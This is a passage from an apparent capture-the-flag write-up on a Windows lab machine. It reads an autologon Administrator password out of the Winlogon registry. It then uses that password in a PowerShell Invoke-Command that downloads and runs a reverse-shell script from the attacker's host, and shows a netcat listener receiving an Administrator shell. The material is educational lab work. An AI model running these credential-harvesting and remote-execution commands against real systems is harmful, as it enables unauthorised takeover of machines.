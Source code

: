 ```bash
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x13d3a36e
    ShutdownFlags    REG_DWORD    0x80000033
    AutoAdminLogon    REG_SZ    1
    DisableLockWorkstation    REG_DWORD    0x0
    EnableFirstLogonAnimation    REG_DWORD    0x1
    AutoLogonSID    REG_SZ    S-1-5-21-988671444-1802818203-1364644418-500
    LastUsedUsername    REG_SZ    Administrator
    DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\Currentversion\Winlogon\AlternateShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\Currentversion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\Currentversion\Winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\Currentversion\Winlogon\VolatileUserMgrKey
```

With the saved credential, let's open a new reverse shell.

```powershell
$username = "BART\Administrator"

$password = "3130438f31186fbaf962f407711faddb"

$secstr = New-Object -TypeName System.Security.SecureString

$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}

$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr

Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/rshell_9001.ps1') } -Credential $cred -Computer localhost
```

Then I can open a shell as `Administrator`.

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.81] 50649
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\internal-01\log>whoami
whoami
nt authority\Administrator
```
